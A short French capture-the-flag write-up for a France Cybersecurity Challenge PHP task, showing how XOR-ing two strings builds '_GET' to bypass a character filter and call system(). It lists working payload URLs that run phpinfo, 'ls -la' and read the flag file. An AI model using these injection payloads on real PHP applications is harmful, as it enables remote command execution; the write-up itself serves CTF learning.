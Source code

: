 # Liprogrammeurs

Merci `https://ctf-wiki.github.io/ctf-wiki/web/php/php/`.

## Détails du payload

La chose importante à voir ici est le xor `^` pour créer la chaine `_GET`.

```php
$_GET['_'] = 'system';
$_GET['__'] = 'ls';

$_ = "`{{{" ^ "?<>/";
${$_}['_']( ${$_}['__'] ); //$_GET['_']( $_GET['__'] )
```

## Payload

Payload pour executer un `phpinfo();`.
```
http://challenges2.france-cybersecurity-challenge.fr:5008/?_=phpinfo&code=$_="`{{{"^"?<>/";${$_}[_]();
```

Payload pour faire un `ls`.
```
http://challenges2.france-cybersecurity-challenge.fr:5008/?_=system&__=ls -la&code=$_="`{{{"^"?<>/";${$_}['_'](${$_}['__']);
```

Payload final
```
http://challenges2.france-cybersecurity-challenge.fr:5008/?_=system&__=cat.flag.inside.J44kYHYL3asgsU7R9zHWZXbRWK7JjF7E.php|base64&code=$_="`{{{"^"?<>/";${$_}['_'](${$_}['__']);
```
